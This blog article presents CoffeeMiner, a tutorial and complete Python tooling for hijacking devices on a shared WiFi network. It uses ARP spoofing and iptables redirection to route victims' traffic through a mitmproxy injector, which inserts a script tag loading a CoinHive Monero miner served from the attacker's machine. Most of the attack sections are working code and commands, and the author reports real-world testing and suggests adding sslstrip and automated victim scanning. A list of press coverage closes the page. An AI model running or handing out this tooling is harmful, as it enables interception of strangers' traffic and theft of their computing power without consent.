





CoffeeMiner: Hacking WiFi to inject cryptocurrency miner to HTML requests
2018-01-04
Disclamer: this article & project is for academic purposes only.
Some weeks ago I read about this Starbucks case where hackers hijacked laptops on the WiFi network to use the devices computing power to mine cryptocurrency, and I thought it might be interesting perform the attack in a different way.
The goal of this article, is to explain how can be done the attack of MITM (Machine-In-The-Middle) to inject some javascript in the html pages, to force all the devices connected to a WiFi network to be mining a cryptocurrency for the attacker.
The objective is to have a script that performs autonomous attack on the WiFi network. It’s what we have called CoffeeMiner, as it’s a kind of attack that can be performed in the cafes WiFi networks.
1. The Scenario
The scenario will be some machines connected to the WiFi network, and the CoffeeMiner attacker intercepting the traffic between the users and the router.

1.1 Scenario configuration
The real scenario is a WiFi with laptops and smartphones connected. We have tested in this real world scenario, and it works. But for this article, we will see more deeply how to set up in a virtual environment.
We will use VirtualBox to deploy our virtual scenario https://www.virtualbox.org/ .
First of all we need to download some Linux disk image and install it into a VirtualBox machine, for this example we will use Kali Linux images https://www.kali.org/
Once we have the ISO image downloaded, we prepare 3 VBox machines with the Linux image installed.
To configure the defined scenario we need to prepare the machines each one with a role:
- Victim
- will be the machine that connects to the Router and browse some pages.
- Attacker
- will be the machine where it runs the CoffeeMiner. Is the machine that performs the MITM.
- Router / Gateway
- will act as a normal gateway.

Once the attack is performed, the scenario will be:

To configure each one of the machines, we will do the following configuration:
- Victim
- network adapter:
- eth0: Host-only Adapter
- /etc/network/interfaces:
- network adapter:
auto lo
iface lo inet loopback
auto eth0
iface eth0 inet static
address 10.0.2.10
netmask 255.255.255.0
gateway 10.0.2.15
- Attacker
- network adapter:
- eth0: Host-only Adapter
- /etc/network/interfaces:
- network adapter:
auto lo
iface lo inet loopback
auto eth0
iface eth0 inet static
address 10.0.2.20
netmask 255.255.255.0
gateway 10.0.2.15
- Router / Gateway
- network adapter:
- eth0: Bridged Adapter
- eth1: Host-only Adapter
- /etc/network/interfaces:
- network adapter:
auto lo
iface lo inet loopback
auto eth0
iface eth0 inet dhcp
auto eth1
iface eth1 inet static
address 10.0.2.15
netmask 255.255.255.0
2. CoffeeMiner, understanding the code
2.1 ARPspoofing
First of all, we need to understand how the MITM attack is performed.
From wikipedia:
“In computer networking, ARP spoofing, ARP cache poisoning, or ARP poison routing, is a technique by which an attacker sends (spoofed) Address Resolution Protocol (ARP) messages onto a local area network. Generally, the aim is to associate the attacker’s MAC address with the IP address of another host, such as the default gateway, causing any traffic meant for that IP address to be sent to the attacker instead.”
https://en.wikipedia.org/wiki/ARP_spoofing
To perform the ARPspoofing attack, we will use the dsniff library.
arpspoof -i interface -t ipVictim ipGateway
arpspoof -i interface -t ipGateway ipVictim
2.2 mitmproxy
mitmproxy is a software tool that allows us to analyze the traffic that goes through a host, and allows to edit that traffic. In our case, we will use it to inject the javascript into the html pages.
To make the process more more clean, we will only inject one line of code into the html pages. And will be that line of html code that will call to the javascript cryptocurrency miner.
The line to inject the crypto miner is:
<script src="http://httpserverIP:8000/script.js"></script>
2.3 Injector
Once we have the victim’s traffic intercepted, we need to inject our script on it. We will use the mitmproxy API to do the injector:
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
def __init__(self, path):
self.path = path
def response(self, flow: http.HTTPFlow) -> None:
if self.path:
html = BeautifulSoup(flow.response.content, "html.parser")
print(self.path)
print(flow.response.headers["content-type"])
if flow.response.headers["content-type"] == 'text/html':
script = html.new_tag(
"script",
src=self.path,
type='application/javascript')
html.body.insert(0, script)
flow.response.content = str(html).encode("utf8")
print("Script injected.")
def start():
parser = argparse.ArgumentParser()
parser.add_argument("path", type=str)
args = parser.parse_args()
return Injector(args.path)
2.4 HTTP Server
As we have seen, the injector adds a line to the html, with a call to our javascript crypto miner. So, we need to have the script file deployed in a HTTP Server.
In order to serve the javascript cryptocurrency miner, we will deploy a HTTP Server in the attacker machine. To do that, we will use the Python library ‘http.server’:
#!/usr/bin/env python
import http.server
import socketserver
import os
PORT = 8000
web_dir = os.path.join(os.path.dirname(__file__), 'miner_script')
os.chdir(web_dir)
Handler = http.server.SimpleHTTPRequestHandler
httpd = socketserver.TCPServer(("", PORT), Handler)
print("serving at port", PORT)
httpd.serve_forever()
The code above is a simple HTTP Server that will serve our crypto miner to the victims, when they require it.
The javascript miner, will be placed in the /miner_script directory. In our case, we have used the CoinHive javascript miner.
2.5 CoinHive crypto miner
CoinHive is a javascript miner for the Monero cryptocurrency (XMR). It can be added to a website, and will use the user CPU power to calculate hashes with the Cryptonight PoW hash algorithm to mine Monero, based on CryptoNote protocol.
CoinHive miner makes sense when user stays in a website for mid-long term sessions. So, for example, for a website where the users average session is arround 40 seconds, it doesn’t make much sense.
In our case, as we will inject the crypto miner in each one of the HTML pages that victims request, will have long term sessions to calculate hashes to mine Monero.
3. CoffeeMiner, puting all together
The main objective is to tie all the previous concepts in one autonomous deployment. This will be the CoffeeMiner.
The idea is to have the CoffeeMiner script that performs the ARPspoofing attack and set ups the mitmproxy to inject the CoinHive cryptominer into victims HTML pages.
First of all, we need to configure the ip_forwarding and IPTABLES, in order to convert the attacker’s machine into a proxy:
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
To perform the ARPspoof for all the victims, we will prepare a ‘victims.txt’ file with all the victim’s IP. To read all the victims IPs, we prepare some Python lines, that will get the IPs (and also the gateway IP from the command line args), and performs the ARPspoof for each one of the victim’s IP.
# get gateway_ip
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
# run the arpspoof for each victim, each one in a new console
for victim in victims:
os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
Once we have the ARPspoofing performed, we just need to run the HTTP Server:
> python3 httpServer.py
And now, we can run the mitmproxy with the injector.py:
> mitmdump -s 'injector.py http://httpserverIP:8000/script.js'
3.1 CoffeeMiner, final script
Now we put all the concepts explained above in the ‘coffeeMiner.py’ script:
import os
import sys
#get gateway_ip (router)
gateway = sys.argv[1]
print("gateway: " + gateway)
# get victims_ip
victims = [line.rstrip('\n') for line in open("victims.txt")]
print("victims:")
print(victims)
# configure routing (IPTABLES)
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080")
os.system("iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080")
# run the arpspoof for each victim, each one in a new console
for victim in victims:
os.system("xterm -e arpspoof -i eth0 -t " + victim + " " + gateway + " &")
os.system("xterm -e arpspoof -i eth0 -t " + gateway + " " + victim + " &")
# start the http server for serving the script.js, in a new console
os.system("xterm -hold -e 'python3 httpServer.py' &")
# start the mitmproxy
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
And also in the ‘injector.py’ script:
from bs4 import BeautifulSoup
from mitmproxy import ctx, http
import argparse
class Injector:
def __init__(self, path):
self.path = path
def response(self, flow: http.HTTPFlow) -> None:
if self.path:
html = BeautifulSoup(flow.response.content, "html.parser")
print(self.path)
print(flow.response.headers["content-type"])
if flow.response.headers["content-type"] == 'text/html':
print(flow.response.headers["content-type"])
script = html.new_tag(
"script",
src=self.path,
type='application/javascript')
html.body.insert(0, script)
flow.response.content = str(html).encode("utf8")
print("Script injected.")
def start():
parser = argparse.ArgumentParser()
parser.add_argument("path", type=str)
args = parser.parse_args()
return Injector(args.path)
And to execute, we just need to do:
> python3 coffeeMiner.py RouterIP
4. Demo
In order to do the demo, we set up the VirtualBox scenario explained above.
If we want to perform the attack manually, we will need the following terminals:

Then, once the ARPspoofing attack is done and the injector and the HTTP Server are ready, we can go to the victim’s machine and browse to a website. The victim’s traffic will go through the attacker machine, and will activate the injector:

As a result, the html pages that the victim is viewing, will have the html lines of code that the attacker has been injected.

4.1 Demo video
In the following video, we can see the complete attack in the scenario, using the coffeeMiner.py script:
- VirtualBox demo:
- Real world WiFi network and laptops demo:
Conclusion
As we have seen, the attack can be easily performed, and also can be deployed to be an autonomous attack in a WiFi network.
Another thing to have in mind, is that for a real world WiFi network, is better to perform the process with a powerful WiFi antenna, to reach better all the physical zone.
Tha main objective was to perform the autonomous attack, but we still need to edit the victims.txt file with the IP addresses of the victims devices. For a further version, a possible feature could be adding an autonomous Nmap scan, to add the IPs detected to the CoffeeMiner victims list. Another further feature, could be adding sslstrip, to make sure the injection also in the websites that the user can request over HTTPS.
The complete code is available in the github repo: https://github.com/arnaucube/coffeeMiner
Disclamer: this article & project is for academic purposes only.
tags: python, cryptocurrency, miner, blockchain, mitm, wifi, javascript, hacking, html, cryptominer, python3
References in the press about this article
English
- https://www.theregister.co.uk/2018/01/05/wi_fi_crypto_mining/
- http://securityaffairs.co/wordpress/67438/hacking/coffeeminer-hacking-wifi-cryptocurrency.html
- https://gbhackers.com/coffeeminer-hacking-wifi/
- https://www.privateinternetaccess.com/blog/2018/01/stop-coffeeminer-tool-injects-cryptocurrency-miner-html-requests-wifi-hotspots/
- http://www.zdnet.com/article/how-to-hack-public-wi-fi-to-mine-for-cryptocurrency/
- https://sensorstechforum.com/coffeeminer-malware-virus-detect-remove/
- http://turningtrend.com/how-to-hack-public-wi-fi-to-mine-for-cryptocurrency/
- https://www.theissue.com/technology/coffeeminer-demonstrates-how-hijackers-can-use-public-wi-fi-networks-to-mine-cryptocurrency
- https://koddos.net/blog/hackers-use-coffeeminer-hijack-public-wifi-hotspots-mine-cryptocurrency/?utm_source=Sociallymap&utm_medium=Sociallymap&utm_campaign=Sociallymap
- http://nymag.com/selectall/2018/01/coffeeminer-allows-hackers-to-mine-bitcoin-on-public-wi-fi.html
- https://medium.com/computerist/beware-coffeeminer-project-lets-you-hack-public-wi-fi-to-mine-cryptocoins-1915624c2ea5
- https://resiliencepost.com/2018/01/12/coffeeminer-forces-coffee-shop-visitors-to-mine-for-monero/
- https://fossbytes.com/coffeeminer-attack-wifi-attack-cryptomining/
- https://securityboulevard.com/2018/01/coffeeminer-poc-targets-public-wi-fi-networks-to-mine-for-cryptocurrency/
- https://latesthackingnews.com/2018/01/07/hacking-wireless-networks-use-coffeeminer-inject-cryptocurrency-miners/
- https://nakedsecurity.sophos.com/2018/01/09/coffeeminer-project-lets-you-hack-public-wi-fi-to-mine-cryptocoins/
- https://hotforsecurity.bitdefender.com/blog/coffeeminer-poc-targets-public-wi-fi-networks-to-mine-for-cryptocurrency-19414.html
- https://www.helpnetsecurity.com/2018/01/08/public-wifi-cryptocurrency-mining/
- https://www.infosecurity-magazine.com/news/coffeeminer-mine-for-monero/
- http://www.ibtimes.co.uk/what-coffeeminer-new-attack-lets-hackers-hijack-public-wifi-networks-mine-cryptocurrency-1654320
Spanish
- http://www.elladodelmal.com/2018/01/coffeeminer-te-tomas-tu-cafe-te.html
- https://blogs.protegerse.com/2018/01/10/coffeeminer-minando-criptodivisas-sin-autorizacion-usando-la-wifi-como-vector-de-ataque/
- http://noticiasseguridad.com/seguridad-informatica/coffeeminer-un-script-que-automatiza-la-inyeccion-de-codigo-para-minar-criptomoneda-en-redes-wi-fi/
- https://www.redeszone.net/2018/01/06/coffeeminer-un-script-que-automatiza-la-inyeccion-de-codigo-para-minar-criptomoneda-en-redes-wi-fi/
- https://terabytezone.com/coffeeminer-minado-criptomonedas-redes-wifi/
- http://www.nexusmovil.com/coffeeminer-un-script-que-automatiza-la-inyeccion-de-codigo-para-minar-criptomoneda-en-redes-wi-fi/
- https://www.coincrispy.com/2018/01/10/coffeeminer-ataque-mineria-criptomonedas/
- https://www.criptonoticias.com/seguridad/coffeeminer-secuestra-redes-publicas-wi-fi-para-minar-criptomonedas/
Russian
Italian
Bulgarian
Greek
Turkish
Dutch
Chinese
Destacated tweets
- @defcon https://twitter.com/defcon/status/949679959509012480
- @x0rz https://twitter.com/x0rz/status/948865836609130496
- @avast_antivirus https://twitter.com/avast_antivirus/status/951835917815308288
- @fullstackpython https://twitter.com/fullstackpython/status/949707681543213057
- @alienvault https://twitter.com/alienvault/status/950449599872929792
- @binitamshah https://twitter.com/binitamshah/status/951520444900818945
- @_odisseus https://twitter.com/_odisseus/status/951052521967144960